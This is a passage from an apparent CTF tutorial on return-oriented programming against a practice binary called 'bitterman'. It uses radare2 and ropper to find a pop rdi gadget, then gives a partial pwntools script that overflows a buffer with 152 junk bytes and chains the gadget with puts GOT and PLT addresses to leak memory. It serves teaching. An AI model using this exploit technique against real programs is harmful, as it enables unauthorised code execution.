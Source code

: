 `/R pop rdi`

![https://bufferoverflows.net/wp-content/uploads/2019/04/r2_rop.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/r2_rop.jpg)

Second tool is  ***ropper*** which a light python tool that searches for your gadgets in the binary file.

`ropper --file bitterman --search "pop rdi"`

![https://bufferoverflows.net/wp-content/uploads/2019/04/ropper.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/ropper.jpg)

Notice that both of the tools gave us the same result, so it is up to you to use whatever you want as long as it does the job. Now let’s add the address of (pop rdi) to our exploit template and construct our initial payload which consists of : 

1-    (152) junk bytes 

2-    Address of (pop rdi) gadget 

3-    Address of puts function in GOT (which will be the argument) 

4-    Address of puts function in PLT (which will be the actual function to call)

```python
from pwn import *

# Here we define the context of the exploit, it is for linux os and amd64 archeticture

context(os='linux', arch='amd64')

put_plt_addr = p64(0x400520)

put_got_addr = p64(0x600c50)

pop_rdi_gadget = p64(0x400853)

# The first 152 bytes of our payload are junk input before we overwrite the RSP

payload = 'A'*152

payload += pop_rdi_gadget

payload += put_got_addr

payload += put_plt_addr

# This is our input and output of the program we will use them

"""

> What's your name?

Amr

Hi, Amr

> Please input the length of your message:

1000

> Please enter your text:

test

> Thanks!

"""
```